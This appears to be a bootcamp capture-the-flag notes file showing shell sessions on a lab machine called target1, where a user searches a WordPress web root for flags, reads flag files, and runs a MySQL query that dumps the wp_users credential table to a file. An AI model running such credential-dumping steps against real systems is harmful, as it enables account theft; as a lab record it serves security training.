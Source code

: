 # uwa-bootcamp-final-project
/** flag1  **/
michael@target1:/var/www/html$ grep -rie flag[1-9] *
service.html:                   <!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->
wordpress/wp-includes/ID3/module.audio.ac3.php:                 $thisfile_ac3_raw_bsi['compre_flag2'] = (bool) $this->readHeaderBSI(1);
wordpress/wp-includes/ID3/module.audio.ac3.php:                 if ($thisfile_ac3_raw_bsi['compre_flag2']) {
wordpress/wp-includes/ID3/module.audio.ac3.php:                 $thisfile_ac3_raw_bsi['langcode_flag2'] = (bool) $this->readHeaderBSI(1);
wordpress/wp-includes/ID3/module.audio.ac3.php:                 if ($thisfile_ac3_raw_bsi['langcode_flag2']) {
wordpress/wp-includes/js/wp-emoji-loader.js:                    flag, flag2, emoji41, emoji42;
wordpress/wp-includes/js/wp-emoji-loader.js:                            flag2 = canvas.toDataURL();
wordpress/wp-includes/js/wp-emoji-loader.js:                            if ( flag === flag2 ) {
wordpress/wp-includes/js/wp-emoji-loader.js:                            flag2 = canvas.toDataURL();
wordpress/wp-includes/js/wp-emoji-loader.js:                            return flag !== flag2;
michael@target1:/var/www/html$ 


/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
michael@target1:/var/www/html/wordpress$ clear
michael@target1:/var/www/html/wordpress$ cd ..
michael@target1:/var/www/html$ cd ..
michael@target1:/var/www$ ll
-bash: ll: command not found
michael@target1:/var/www$ ls
flag2.txt  html
michael@target1:/var/www$ 
michael@target1:/var/www$ cat flag2.txt 
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
michael@target1:/var/www$ 


mysql> (select * from wp_users INTO OUTFILE '/home/michael/wp_users.txt' FIELDS ENCLOSED BY '"' TERMINATED BY ';' ESCAPED BY '"' LINES TERMINATED BY '\r\n');



